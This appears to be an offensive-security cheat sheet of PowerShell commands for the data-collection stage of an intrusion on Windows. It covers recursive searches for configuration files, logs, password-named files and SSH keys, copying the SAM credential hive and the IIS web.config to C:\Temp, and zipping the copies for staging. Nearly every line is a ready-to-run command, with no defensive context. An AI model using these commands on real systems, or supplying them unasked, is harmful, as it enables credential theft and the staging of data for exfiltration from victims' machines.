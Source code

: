 # Data Collection

#### File System Search

Search for Configuration Files:

```
Get-ChildItem -Path C:\ -Include *.conf -Recurse -ErrorAction SilentlyContinue
```

Search for Log Files:

```
Get-ChildItem -Path C:\ -Include *.log -Recurse -ErrorAction SilentlyContinue
```

Search for Files with "password" in the Name:

```
Get-ChildItem -Path C:\ -Include *password* -Recurse -ErrorAction SilentlyContinue
```

Search for SSH Keys:

```
Get-ChildItem -Path C:\Users\ -Include *.ssh -Recurse -ErrorAction SilentlyContinue
```

#### Copying Sensitive Files

Copy File to a Temporary Directory:

```
Copy-Item -Path C:\path\to\sensitivefile.txt -Destination C:\Temp\sensitivefile_copy.txt
```

Copy System File (e.g., SAM File):

```
Copy-Item -Path C:\Windows\System32\config\SAM -Destination C:\Temp\SAM_copy
```

Copy Web Server Configuration File:

```
Copy-Item -Path C:\inetpub\wwwroot\web.config -Destination C:\Temp\webconfig_copy.config
```

#### Archiving Data

Archive Sensitive Files into a Compressed ZIP:

```
Compress-Archive -Path C:\Temp\sensitivefile_copy.txt -DestinationPath C:\Temp\sensitive_data.zip
```

Archive a Directory into a ZIP File:

```
Compress-Archive -Path C:\path\to\directory -DestinationPath C:\Temp\directory_data.zip
```
